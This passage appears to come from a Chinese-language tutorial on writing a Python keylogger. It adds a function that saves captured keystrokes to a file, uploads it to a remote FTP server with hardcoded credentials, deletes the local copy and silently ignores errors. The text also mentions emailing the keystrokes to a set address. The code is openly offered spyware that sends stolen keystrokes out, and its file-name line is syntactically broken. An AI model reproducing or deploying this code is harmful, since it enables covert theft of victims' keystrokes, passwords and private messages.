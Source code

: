 现在，当日志文件中有 1000 个字符时，这将把按键发送到指定的电子邮件 ID。同样，我们可以添加一个方法将文件上传到 FTP 服务器。在这里，我们必须导入`ftplib`模块和`os`模块：

```py
import ftplib 
import os 

```

然后，定义将文件上传到 FTP 服务器的方法

```py
def uploadToFTP(data,to): 
    # Write data to a file 
    fileName="log-"+str(datetime.datetime.now()+".txt" 
    logFile=open(fileName,"a") 
    logFile.write(data) 
    logFile.close() 

    try: 
        # Provide FTP server address 
        server = 'yourdomain.com' 
        # Your FTP username 
        username = 'keylogger' 
        # Your FTP password 
        password = 'asd123' 
        # SSL state, set 1 if SSL enabled in server 
        SSL = 0 
        # FTP Directory to upload the file 
        directory = "/"  
        # Create normal FTP connection If SSL disabled 
        if SSL==0: 
            connection=ftplib.FTP(server,username,password) 
        # Create SSL enabled FTP connection 
        elif SSL==1: 
            connection=ftplib.FTP_TLS(server,username,password) 

        # Change directory in FTP connection 
        connection.cwd(directory) 
        # Open the log file 

        logFile=open(fileName,'rb') 
        # Upload the file to FTP server 
        connection.storbinary('STOR' +' '+fileName,logFile) 
        # Close the FTP connection 
        connection.quit() 
        # Close the log file 
        logFile.close() 
        # Delete the temporary log file 
        os.remove(fileName) 
    except: 
        pass
```

现在我们可以在`OnKeyboardEvent`函数中使用此方法将按键上传到 FTP 服务器。

